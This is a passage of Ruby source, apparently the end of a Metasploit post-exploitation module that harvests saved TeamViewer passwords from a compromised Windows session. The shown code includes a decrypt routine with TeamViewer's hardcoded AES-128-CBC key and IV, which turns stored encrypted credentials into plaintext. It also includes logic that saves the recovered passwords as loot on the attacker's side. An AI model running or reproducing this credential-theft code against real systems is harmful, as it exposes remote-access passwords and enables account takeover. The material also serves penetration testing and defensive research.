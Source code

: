```ruby
        end
      end
    end

    #Only save data to disk when there's something in the table
    if not results.empty?
      path = store_loot("host.teamviewer_passwords", "text/plain", session, results, "teamviewer_passwords.txt", "TeamViewer Passwords")
      print_good("Passwords stored in: #{path.to_s}")
    end
  end

  def decrypt(encrypted_data)
    password = ""
    return password unless encrypted_data

    password = ""
    original_data = encrypted_data.dup

    decoded = encrypted_data
    #print_status(decoded)

    key = "\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    iv  = "\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    aes = OpenSSL::Cipher.new("AES-128-CBC")
    begin
      aes.decrypt
      aes.key = key
      aes.iv = iv
      plaintext = aes.update(decoded)
      password = Rex::Text.to_ascii(plaintext, 'utf-16le')
      if plaintext.empty?
        return nil
      end
    rescue OpenSSL::Cipher::CipherError => e
      puts "Unable to decode: \"#{encrypted_data}\" Exception: #{e}"
    end

    password
  end

  def run
    print_status("Finding TeamViewer Passwords on #{sysinfo['Computer']}")
    app_list
  end
end
```
